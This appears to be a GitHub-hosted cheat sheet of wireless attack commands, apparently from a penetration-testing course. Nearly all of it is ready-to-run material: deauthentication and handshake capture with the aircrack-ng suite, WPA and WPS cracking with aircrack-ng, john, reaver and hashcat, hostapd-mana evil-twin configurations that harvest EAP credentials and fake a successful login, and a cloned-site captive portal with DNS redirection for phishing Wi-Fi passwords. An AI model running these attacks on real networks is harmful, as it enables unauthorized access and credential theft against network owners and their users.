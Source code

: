 # Useful Wireshark Filter
0x08 means beacons
```wlan.fc.type_subtype == 0x08 && wlan.ssid == "<targetname>" ```

filter on bssid
```wlan.bssid == <bssid>```

# Capturing handshakes  

## Starting monitor mode  
```sudo airmon-ng start wlan0 ```

## Starting monitor mode and setting a channel  
```sudo airmon-ng start wlan0 3  ```

## Recon - see all  
```sudo airodump-ng wlan0mon```

## Recon specific (monitor channel 3)
```
sudo airmon-ng start wlan0 3
sudo airodump-ng --bssid <bssid> --essid <essid> wlan0mon -w <fileprefix> --channel <channel>
```
Then deauth from another shell or wifi card:
```sudo aireplay-ng -0 5 -a <BSSID> -c <client MAC> wlan0mon```

# Cracking handshakes

## Aircrack-ng
```aircrack-ng -w <path to wordlist> -e <ESSID> -b <BSSID> <capture filename>```

Aircrack with john rules
```sudo john --wordlist=<path to wordlist> --rules --stdout | aircrack-ng -e <ESSID> -b <BSSID> -w <capture filename>```

# Cracking wps

## Recon
```sudo wash -i wlan0mon ```

## Attacks
```sudo reaver -b <bssid> -i wlan0mon -v```

May need -K  
```sudo reaver -b <bssid> -i wlan0mon -v -K```

# Evil Twin with hostapd-mana
Wiki: https://github.com/sensepost/hostapd-mana/wiki

## PSK
```
interface=wlan0
ssid=groupB_target_3
channel=3
hw_mode=g
ieee80211n=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=/home/kali/groupB_target_3.hccapx
```

Then crack with aircrack-ng

## EAP

/etc/hostapd-mana/mana.eap_user
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


hostapd-mana config file
```# SSID of the AP
ssid=groupB_target_4

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/home/kali/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Start evil twin with command:
```
sudo hostapd-mana <configfile>
```

## Cracking hashes

Extract hashes:
```grep <JTR/HASHCAT> | cut -f2 >> <hashfile>```

Hashcat and John syntax
```
sudo hashcat -m 5500 <hashfile> <wordlist> 
john --format=netntlm <hashfile> --wordlist=<wordlist>
```

# Connecting to target network

wifi supplicant config file:

```
network={
  ssid="<ssid>"
  scan_ssid=1
  psk="<password>"
  key_mgmt=WPA-PSK
}
```
Then to connect (use the -B after verifying the connection is successful)
```
sudo wpa_supplicant -i <interface> -c <config file> -B 
sudo dhclient <interface>
```

# Captive Portals
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 <site to clone>
```

create index.php from wget, copy needed files to /var/www/html/portal

copy login_check.php to /var/www/html/portal

set up network
```sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
```
create mco-dnsmasq.conf file and start dnsmasq
```
sudo dnsmasq --conf-file=mco-dnsmasq.conf
verify dns
sudo netstat -lnp
```

Install nftables if needed
```
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
Update apache to use ssl
```
sudo a2enmod ssl
sudo systemctl restart apache2
```

start the evil twin with the mco-hostapd.conf file
```sudo hostapd -B mco-hostapd.conf```
